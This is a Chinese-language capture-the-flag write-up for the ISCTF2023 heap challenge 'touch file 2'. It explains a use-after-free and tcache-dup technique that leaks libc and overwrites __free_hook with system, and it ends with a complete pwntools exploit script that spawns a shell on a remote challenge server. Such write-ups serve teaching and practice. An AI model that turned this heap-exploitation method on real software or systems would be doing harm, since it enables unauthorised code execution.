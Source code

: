 ```yaml
---
title: isctf2023 - touch file 2
date: 2023/12/5 12:00:00
tags:
    - heap - tcache
    - libc2.31
excerpt: 通过利用堆漏洞和libc函数，成功实现了从程序获取shell的攻击。
---
```


## 文件分析

NX on, PIE on, Canary off, RELRO full  
ghidra分析为64位程序  
glibc: 2.31

## 解题思路

程序模拟了命令行的执行，是一道简单堆题，主要利用点在cp命令上，
浅拷贝的模式使得uaf、double free十分容易

这道题中分配单元固定，为0x80，分配的chunk大小为0x91，首先分配7个耗尽tcache，
然后分配一个在unsorted bin中，cp+rm+cat读取main_arena，推出libcBase；
再进行tcache dup，把`__free_hook`写上system，最后给一个chunk上写上/bin/sh，
free它就能拿到shell

## 踩过的坑

1. strncpy函数会将size中未输入的部分全部填0，并且复制时是'\0'截断的！这点要注意
2. 这题附件给了ld，给了libc，但是libstdc++之类的其他依赖都没给，这时候借助docker，
下载一个ubuntu容器可以快速解决问题（主要是本地的libcstdc++依赖高版本libc）
3. 手动释放一个chunk到unsorted bin中需要满足对应的后一个chunk处(&chunk + size)
的P位设为1
4. 当getline得到一个超长输入时，会分配一个chunk，用完后释放，可以考虑写入大量垃圾字符，
来触发`malloc_consolidate`（不是用在这题）

## EXPLOIT

```python
# 类型注释包含新版本特性，如无法运行，建议把类型注释删掉
from pwn import *
def execute(*args: str | bytes):
    global sh
    sh.recvuntil(b'>')
    sh.sendline(b' '.join(map(lambda arg: arg.encode() if isinstance(arg, str) else arg, args)))

def payload(lo):
    global sh
    if lo:
        sh = process('./touch_file2')
        if lo & 0b10:
            gdb.attach(sh, gdbscript = 'b *$rebase(0x1ab1)')
    else:
        sh = remote('43.249.195.138', 21815)
    libc = ELF('/home/Rocket/glibc-all-in-one/libs/2.31-0ubuntu9.12_amd64/libc-2.31.so')# strncpy 会向dest中补充\0字符！！

    execute('touch', 'a')
    execute('touch', 'b')
    execute('touch', 'c')
    execute('touch', 'd')
    execute('touch', 'e')
    execute('touch', 'f')
    execute('touch', 'g')
    execute('touch', 'h')
    execute('rm', 'h')
    execute('rm', 'g')
    execute('rm', 'f')
    execute('rm', 'e')
    execute('rm', 'd')
    execute('rm', 'c')
    execute('rm', 'b')

    execute('cp', 'a', 'aa')
    execute('rm', 'aa') # tcache full (7), free in unsorted bin
    execute('cat', 'a') # print fd (main_arena)

    dumpArena = libc.symbols['__malloc_hook'] + (libc.symbols['__malloc_hook'] - libc.symbols['__realloc_hook']) * 2
    mainArena = u64(sh.recvline()[-7:-1] + b'\0\0') - 0x60 # sub unsorted bin offset
    libcBase = mainArena - dumpArena
    freeHook = libcBase + libc.symbols['__free_hook']
    system = libcBase + libc.symbols['system']

    execute('touch', 'b')
    execute('touch', 'c')
    execute('touch', 'd')
    execute('touch', 'e') # alloc some chunks to consume tcache for tcache dup

    execute('touch', 'x')
    execute('cp', 'x', 'xx')
    execute('rm', 'xx')
    # tcache linked list status
    # head -> x -> f -> g -> h
    execute('edit', 'x', p64(freeHook))  # next = freeHook, key = 0
    # head -> x -> freeHook -> NULL
    execute('touch', 'y', p64(freeHook)) # next = freeHook, key = 0; without this content, next = 0
    # head -> freeHook -> NULL
    execute('touch', 'z', p64(system))   # modify *freeHook = system
    execute('edit', 'c', '/bin/sh')
    execute('rm', 'c') # free(chunk), *chunk => "/bin/sh", execute system("/bin/sh")

    sh.interactive()

payload(0)
```

Done.
